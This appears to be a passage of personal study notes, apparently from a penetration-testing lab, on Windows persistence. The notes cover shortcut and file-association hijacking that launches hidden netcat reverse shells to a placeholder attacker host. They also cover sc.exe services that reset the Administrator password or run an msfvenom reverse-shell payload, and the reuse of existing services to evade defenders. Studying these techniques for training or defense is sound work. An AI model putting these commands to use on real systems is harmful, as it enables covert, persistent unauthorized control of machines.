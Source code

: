 ```
				Start-Process -NoNewWindow "C:\'dir'\nc64.exe" "-e cmd.exe 'attack_box_ip' 'attack_box_port'" 
			C:\Windows\System32\calc.exe
				```
				- Adjust the shortcut for the executable - (just for the User, keep that in mind, as opposed to a public shortcut - unless that is what the idea is)
				- Shortcut will target to:
					- `powershell.exe -WindowsStyle hidden C:\'wherever_you_put_the_script\script.ps1'`
		- Hijacking File Associations
			- Hijacking a file association to force the operating system to run a shell whenever the user opens a specific file type
			- Default WinOS file associations are kept in `HKLM\Software\Classes` 
			- If you wanted to check what application is used to open, say, .txt files, check out the .txt reg in the path (or whatever it's called) above
			- You'll note that it will give you usually something like `txtfile` 
				- This is a ProgID
			- You could then search for the given ProgID and find out what it references to
				- Perhaps search for *not* the "Data" type, and perhaps make it *match whole string only* to speed things up
			- There should be a data entry that will then include the path to the related program that launches the file type you were looking at, example:
				- txtfile > shell > open > command
			- Create a script say:
				```powershell
				Start-Process -NoNewWindow "C:\'pathtowheverthisis'\nc64.exe" "-e cmd.exe 'attack_box_ip' 'attack_box_port'"
			C:\Windows\system32\NOTEPAD.exe $args[0]
	```
			- The `'$args[0]'` will signify the name of the file to be opened
			- Change the regkey so it points to the script you created (wherever it sits in the filesystem)
				- NOTE: in data of the regkey:
					- `powershell -windowstyle hidden` before the path to the script you created
	- Abusing Services
		- Windows services run in the background whenever a machine is started - meaning that establishing a persistent connection could utilise these services
		- If we can leverage any service to *run something* for us, then we'd be able to regain control of the targeted machine each time it started
		- A service is an executable that runs in the background
		- When a service is configured, one would define which executable would be used and select if the service would run automatically when the machine starts of it would need to be manually started
		- Creating a Service
			- `sc.exe create 'whateverServiceNameYouWant' binPath= "net user Administrator Passwd123" start= auto`
			- `sc.exe start 'whateverServiceNameyouWant'`
			- This would generally reset the given Admin's password as stated above when the service is run 
		- Creating a service that generates a reverse shell
			- Generate a payload
				- `msfvenom -p windows/x64/shell_reverse_tcp LHOST='attack_box_ip' LPORT='attack_box_port' -f exe-service -o 'rev-svc.exe'`
			- Create the service
				- `sc.exe create 'whateverServiceName' binPath= C:\Users\Administrator\Documents\rev-svc.exe start=auto sc.exe start 'whateverServiceName'`
		- Modifying Existing Services
			- Blue Teams would normally monitor for new service creations across the network
			- Perhaps using an existing service instead of creating a new one to avoid detection could be something
			- Perhaps a disabled service
				- `sc.exe query state=all`
				- `Get-Service`
```
